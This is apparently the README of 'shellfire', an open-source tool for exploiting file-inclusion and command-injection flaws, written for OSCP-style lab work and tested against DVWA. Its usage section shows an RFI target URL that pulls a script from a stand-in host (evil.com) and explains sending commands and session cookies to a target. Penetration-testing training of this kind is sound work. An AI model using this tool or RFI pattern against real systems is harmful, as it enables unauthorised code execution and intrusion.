 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting LFI, RFI, and 
command injection vulnerabilities.

Recently, I received some inspiration while working on my OSCP labs. I 
accidentally ended up writing this script, and it ended up helping me pwn a 
number of boxes in the labs.

Now that my labs are finished, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  
- [X] Dockerized vulnerable apps for testing  


## Installation  

Run `pip install -r requirements.txt` to install the application dependencies.  


## A few useful hints

To use shellfire, just fire it up via python (or add execute permissions and 
launch it directly). For example:

```
$ python shellfire.py
[*] ShellFire v0.8
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help http`.

Let's explore how to attack a basic RFI vulnerability!

To start exploitation, you need to specify at least the URL parameter of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

At this point, you should have enough to exploit easy vulnerabilities. You can 
start executing commands and they will be sent over to the target.

More complex vulnerabilities may require specifying additional options. 
For example, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

Testing is currently being done against the [dvwa docker image](https://hub.docker.com/r/vulnerables/web-dvwa/).

